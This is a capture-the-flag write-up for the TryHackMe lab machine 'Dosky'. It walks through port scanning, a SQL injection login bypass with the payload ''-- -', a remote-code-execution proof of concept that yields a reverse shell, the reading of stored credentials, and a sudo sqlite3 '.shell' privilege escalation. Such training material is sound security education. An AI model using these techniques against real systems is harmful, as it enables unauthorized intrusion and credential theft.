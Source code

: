 <h1 align="center">Dosky Exploitation</h1> 
<h6 align="center"> Official Writeup for Try Hack Me</h6>

<p>Dosky is a challenge that will test your knowledge of informations security in differents areas such as:</p>
<ui>
	<li>Service Enumeration.</li>
	<li>WebApp Exploitation.</li>
	<li>Vulnerabilities exploitation using exploits.</li>
	<li>Linux Enumeration.</li>
	<li>Privilege Escaletion</li>
</ui>

___
<h3 align="center">Enumeration</h3>
<p>After deploying our virtual machine we have to enumerate services, we do not know what this server is actually running but we can try to figure out it.</p>

<p>First we will start scanning ports with <b>Rustscan</b>, this scanner is fast so we can scan all  ports in a few seconds.</p>

```
rustscan 10.10.159.174 --ulimit 5000 -- -p-

Open 10.10.159.174:22
Open 10.10.159.174:80
Open 10.10.159.174:5000
Open 10.10.159.174:10515

```
<p>There are some services runing, using <b>Nmap</b> now we can receive more information about the ports we know that are oppened</p>

```
PORT         STATE SERVICE VERSION
22/tcp         open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp         open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp     open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
10515/tcp   open  unknown

```
<ur>
	<li>Openssh is a normal service and we would need to find credentials to have access to it, let's take a look on it after.</li>
	<li>The port 80 is running apache2, as well it is a normal service and we can enumerate looking for information.</li>
	<li>Running on port 5000 we have an interesting service, maybe flask webapp, we will have to see this.</li>
	<li>But now we have a service that cannot be detected by nmap, we will have to see it manually.</li>
</ur>

### Apache2
<p>We have an apache server running, however it does not seem to be anything interesting as it is just a default service page showing.</p>
<p>Even viewing the code, nothing catches my attention, just a few modified texts and in different languages.</p>

### Dosky's Web Page
<p>Entering the service that runs on port 5000 we find a website about a software called Dosky.</p>
<p>A normal website about the service, and reading a little about it I found out what Dosky is: Dosky is a software that is based on server and client side in two separate programs, so you can manage the services that run on your server remotely and in a secure way..</p>
<p>Okay, now that we see this let’s try to exploit something.</p>

<p>First let’s enumerate the directories of the website. We will use gobuster.</p>

```
/admin (Status: 200)
/console (Status: 200)
/download (Status: 200)
/robots.txt (Status: 200)
```

<p>Gobuste was able to find some interesting directories, one of them refers to a console that runs on Flesk applications under development and it is in debug mode, but we would have to have the pin to have access, so we wont lost our time with it.</p>
<p>"/download" can be accessed through the main page, this makes us download a program that is Dosky_Client, can be useful.</p>
<p>The webpage shows us that there is an Bug Bounty program opened for the public to test their aplications. After entering the Bug Bounty page it seens to be under contruction, but it has a email for contact.</p>

`Email: hanny@dosky.com` It can be usefull later.

<h3 align="center">WebApp Exploitation</h3>

<p>Taking a little deeper look at <b>/admin</b> takes us to the administration page that is protected by a login and password form.</p>

<p>This form allows only email to be inserted, which makes it difficult to explore, however we can bypass using a reverse proxy like <b>Burp Suite</b>.</p>

<p>This way I was able to do some tests and finally find out that the application is vulnerable to <b>sql injection</b>, so even without knowing the password we can use the email that we had found on the Bug Bounty page to bypass the authentication.</p>

### SQL Injection Time
<p>With the Burp Suite connected and intercepting all the traffic we should try to log in to the form with the following credentials:</p>

```
Email: hanny@dosky.com
pasword: abc123
```

<p>And the post data would looks like this:</p>

```
email=hanny%40dosky.com&password=abc123
```

<p>So on the email we will inject the payload</p>

`'-- -` and the post request will look like this: `email=hanny%40dosky.com'-- -&password=abc123`
so we had a success.

### Exploiting Dosky
<p>On the dashboard we have an email from someone who participated in the program and found a failure in Dosky Server, we can read the report, which explains about remote code execution found in the software and we have access to the exploit.</p>

<p>We have to download the exploit then run it using python3.</p>

`Usage: exploit.py <Remote Host> <Port>`
<p>It's very simple and first we will just have to set the server's ip and port. The service is then that stranger running on port 10515.</p>

```
Dosky 1.0 RCE PoC
[OK] - Successful connection.
[OK] - Vulnerable!
[*] - Bash payload.
Local Host> <your ip>
Local Port> 4444
[*] - Generating payload.
[*] - Injecting payload:

Listening on 0.0.0.0 4444
0.0.0.0 Connection received on 40744
bash: cannot set terminal process group (900): Inappropriate ioctl for device
bash: no job control in this shell
dosky@dosky:~$ 

```

<p>And we got a reverse shell!!!</p>

<h3 align="center">Linux Enumeration</h3>

<p>We have access to the machine, but we realize that there is a lot of content to be examined, so let's get straight to the point.<br><br> At the root of the system we have a file called <b>.important.txt</b>, this file has important information, dosky's password.</p>

```
dosky@dosky:/$ cat .important.txt

I changed the user Dosky password to: ************
it's easier and everyone will be allowed to handle that user.

```

<p>The shell we have is not so good so we can connect via ssh with the password we got now.</p>
<p>In the dosky user home folder we have the dosky service, which was exploited to give us access to the machine, inside this python file it has the access passwords for the server as well as the username. Looking better the file you can find the flag.</p>

```

                if user == "admin":
                    if passwd == "35e50bad096e65cebe00974daed9beec":
                        print("logged sussfully")
                        logs = """

```

<p>To obtain the first flag, we must connect to the server with Dosky_Client and login with the credentials.<br><br>The web application is found in a folder on the dosky home</p>

<p>It has a database of type sqlite3 that has Hanny's credentials to enter her dashboad, her user in the machine uses the same password.</p>

```
dosky@dosky:~/Web_Site_v2$ cat auth.db

###[#tableauthauthCREATE TABLE "auth" (
        "user"  TEXT NOT NULL,
        "passwd"        TEXT NOT NULL
+hanny@dosky.com********

dosky@dosky:~/Web_Site_v2$ su hanny
password:
hanny@dosky:/home/dosky/Web_Site_v2$ 
```

<p>After switching users we can access hanny's home and find the second flag.</p>

```
hanny@dosky:~$ ls
SSH-Honeypot  user.txt
hanny@dosky:~$
```

<h3 align="center">Privilege Escalation</h3>

<p>To elevate our privilege on the machine there are some things we can do such as using LinPeas or tools like this. </p>
<p>But by running the command <b>sudo -l</b> we realize that we have the possibility to run the <b>SQLIte3</b> as a super user.</p>
<p>Ok! so running the command we can elevate our privilege.</p>

```
sudo sqlite3 /dev/null '.shell /bin/sh'
```

<p>Now we can go to the root's home and get the flag.</p>

<h5 align="center">The End</h5>

